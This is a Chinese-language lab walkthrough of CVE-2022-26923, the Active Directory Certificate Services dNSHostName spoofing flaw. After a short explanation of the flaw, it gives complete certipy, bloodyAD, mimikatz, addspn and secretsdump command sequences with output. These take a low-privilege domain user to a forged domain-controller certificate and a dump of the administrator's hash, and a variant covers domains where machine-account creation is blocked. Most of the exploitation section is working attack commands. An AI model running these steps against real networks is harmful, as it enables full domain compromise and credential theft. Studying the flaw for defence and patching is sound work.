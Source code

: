# CVE-2022-26923: dNSHostName 证书欺骗提权

### 漏洞原理

- 使用计算机账户申请机器模板的证书时，ADCS 会根据机器模板的属性设置将申请者账户的信息写入证书。具体来说：
  - 机器模板的 msPKI-Certificate-Name-Flag 属性值为 402653184，对应以下两个标志位：
    - **CT_FLAG_SUBJECT_ALT_REQUIRE_DNS**：指示 CA 将申请者账户在 Active Directory 中的 dNSHostName 属性添加到证书的 **Subject Alternative Name（SAN，主题备用名称扩展）**中。
    - **CT_FLAG_SUBJECT_REQUIRE_DNS_AS_CN**：指示 CA 将申请者账户的 dNSHostName 属性添加到证书的 **CN（Common Name，主体名称）**中。
  - 因此，申请证书时会有以下两种情况：
    1. 如果申请者账户的 dNSHostName 属性存在，ADCS 会将其值写入证书的 CN 和 SAN 扩展。
    2. 如果申请者账户的 dNSHostName 属性为空，ADCS 无法生成有效的证书，导致申请失败。
  - 在 PKINIT（Kerberos 预认证）中，KDC 会从证书的 SAN 扩展读取 DNS 名称，并通过该名称查找 Active Directory 中的账户（sAMAccountName）。如果证书中的 SAN 被伪造为域控的名称，则 KDC 会错误地将攻击者视为该域控用户，从而生成 TGT（Ticket Granting Ticket），最终允许攻击者冒充域控账户访问服务。

### 漏洞利用

攻击者可以通过以下步骤利用 **CVE-2022-26923** 漏洞：

1. 修改机器账户的 dNSHostName 属性：
   - 攻击者需要控制某个机器账户，并将其在 Active Directory 中的 dNSHostName 属性修改为目标机器的名称。
2. 申请证书：
   - 攻击者使用被控制的机器账户向 ADCS 申请基于机器模板的证书。
   - 由于机器模板的 msPKI-Certificate-Name-Flag 属性设置，该证书的 CN 和 SAN 会被设置为伪造的域控名称。
3. 使用证书进行 PKINIT Kerberos 认证：
   - 攻击者使用伪造的证书向 KDC 发起 PKINIT 认证。
   - KDC 从证书的 SAN 中读取伪造的 DNS 名称，并在 Active Directory 中查找对应的账户（假设 sAMAccountName 为 DC01$）。
   - KDC 将攻击者认证为域控账户并生成 TGT。
4. 冒充域控访问服务：
   - 攻击者使用获得的域控身份 TGT，访问其他服务（如 LDAP 或 SMB），执行任意操作，从而完全控制域环境。

### 漏洞实验

1. 定位adcs服务器

```
在域内的话，可以执行如下命令定位证书服务器。
certutil -config - -ping
#或者下面的命令，不弹框定位
certutil -dump -v

在域外的话，可以利用 certipy 工具执行如下命令定位证书服务器。
certipy find -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -debug
```

![image-20250213141927183](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213141927183.png)	

2. 创建机器用户

```
执行如下命令使用 certipy 利用 ldaps 远程创建 machine-test 机器用户，并且设置其 dnsHostname 为 dc01.HACK.com。
certipy account create -u deandean@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -user "machine-test" -dns dc01.HACK.com -debug


[+] Authenticating to LDAP server
[+] Bound to ldaps://192.168.72.21:636 - ssl
[+] Default path: DC=HACK,DC=com
[+] Configuration path: CN=Configuration,DC=HACK,DC=com
[*] Creating new account:
    sAMAccountName                      : machine-test$
    unicodePwd                          : 7lfFaiXTJL0tJItr
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/machine-test
                                          RestrictedKrbHost/machine-test
    dnsHostName                         : dc01.HACK.com
[*] Successfully created account 'machine-test$' with password '7lfFaiXTJL0tJItr'
```

![image-20250213205557584](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213205557584.png)

​	3. 请求证书

```
执行如下命令使用 certipy 以 machine-test$ 身份请求一个 Machine 类型的证书。

certipy req -username machine-test$\@HACK.com -p 7lfFaiXTJL0tJItr -ca HACK-DC01-CA -target-ip 192.168.72.21 -template Machine -debug
```

![image-20250213205538429](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213205538429.png)

​	4. 冒充域控访问域控

```
执行如下命令使用 dc01.pfx 进行认证。
certipy auth -pfx dc01.pfx -dc-ip 192.168.72.21 -debug
如图可以看到得到域控 DC01 的机器账号哈希为
```

![image-20250213205709873](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213205709873.png)

5. 导出任意hash

```
使用 DC01 机器账号认证导出域内任意用户哈希。
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:32538b59408163c76f5439225907c28e HACK/DC01$@192.168.72.21 -just-dc-user HACK/administrator -target-ip 192.168.72.21
```

![image-20250213215148820](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213215148820.png)

### 针对 MAQ 为 0 的利用

1. 想办法弄一台机器账户凭据。两种方法：
   - 方法一：查询域内是否存在早期被创建出来的机器账户。（我接下来演示的方法）攻击凭据：机器账户的创建者。
   - 方法二：横向到一台域内机器上，抓取机器账户哈希。攻击凭据：机器账户本身。

接下来攻击需要 ：

- 查询和修改机器账户 spn。
- 修改机器账户密码。（方法二跳过这一步）
- 修改机器账户的 dNSHostName 属性。

但幸运的是，不论是机器账户的创建者还是机器账户本身的凭据，在域环境下都有权限来完成攻击，而且我们接下来使用的工具也都支持方法二，我们接下来攻击流程只演示方法一。

```
# 查询当前域用户的 sid 
whoami /all

# 输出如下：
用户名        SID
============= ==============================================
hack\deandean S-1-5-21-2992640285-1035252920-1077850616-1104


# 查询域内机器账户的创建者
bloodyAD -d HACK.com -u deandean -p p-0p-0p-0 --host 192.168.72.21 get object comp-test$ --attr mS-DS-CreatorSID

# 输出如下：
distinguishedName: CN=comp-test,CN=Computers,DC=HACK,DC=com
mS-DS-CreatorSID: S-1-5-21-2992640285-1035252920-1077850616-1104

# 可以看到 comp-test 是我们 deandean 用户创建的。

# 通过此用户凭据利用 SAMR 协议远程向机器账户发送修改密码的请求
mimikatz.exe
#重置机器账号 comp-test$ 的密码为 p-0p-0p-0p-0
lsadump::SETNTLM /server:192.168.72.21 /user:comp-test$ /password:p-0p-0p-0p-0
```

![image-20250213221720466](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213221720466.png)

2. 清除这台机器账户的 spn。

```
# 查询 comp-test$ 机器账号的 SPN
# 如果你使用的是机器账户 HASH 来进行的攻击，使用 -p 参数指定机器账户的 HASH 即可。
python3 addspn.py -u 'hack.com\deandean' -p 'p-0p-0p-0' -t 'comp-test$' -q 192.168.72.21

# 清除 comp-test$ 机器账号的 SPN
python3 addspn.py --clear -t 'comp-test$' -u 'hack.com\deandean' -p 'p-0p-0p-0' 192.168.72.21
```

![image-20250213222248028](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213222248028.png)

​	3. 修改 dNSHostName 属性

```
#查询 comp-test$ 机器账号的 dNSHostname 属性
# 如果你使用的是机器账户 HASH 来进行的攻击，使用 -p 参数指定机器账户的 HASH 即可。（bloodyAD 的 -p 参数也支持 PTH）
bloodyAD -d HACK.com -u deandean -p p-0p-0p-0 --host 192.168.72.21 get object comp-test$ --attr dNSHostName

#修改 comp-test$ 机器账号的 dNSHostname 属性
bloodyAD -d HACK.com -u deandean -p p-0p-0p-0 --host 192.168.72.21 set object -v dc01.HACK.com comp-test$ dNSHostName
```

​	4. 请求证书

```
#以 comp-test$ 身份认证请求证书
# 如果你使用的是机器账户 HASH 来进行的攻击，使用 -hashes 参数指定机器账户的 HASH 即可。
certipy req -username comp-test$\@HACK.com -password p-0p-0p-0p-0 -ca HACK-DC01-CA -target 192.168.72.21 -template Machine -debug
```

![image-20250213222618322](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213222618322.png)

​	5. 使用域控机器身份访问域控

```
#认证获得域控 Hash
certipy auth -pfx dc01.pfx -dc-ip 192.168.72.21 -debug
```

![image-20250213222801386](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213222801386.png)

​	6. 清理现场：还原 dNSHostName 属性

```
#修改 comp-test$ 机器账号的 dNSHostname 属性
# 如果你使用的是机器账户 HASH 来进行的攻击，使用 -p 参数指定机器账户的 HASH 即可。
bloodyAD -d HACK.com -u deandean -p p-0p-0p-0 --host 192.168.72.21 set object -v comp-test.HACK.com comp-test$ dNSHostName

#查询 comp-test$ 机器账号的 dNSHostname 属性
bloodyAD -d HACK.com -u deandean -p p-0p-0p-0 --host 192.168.72.21 get object comp-test$ --attr dNSHostName
```

​	7. 清理现场：还原spn

```
使用 bloodyAD 工具，将之前保存的 spn 还原到机器账户的 servicePrincipalName 即可。
这里因为原先就没有 spn，所以不做演示。
```

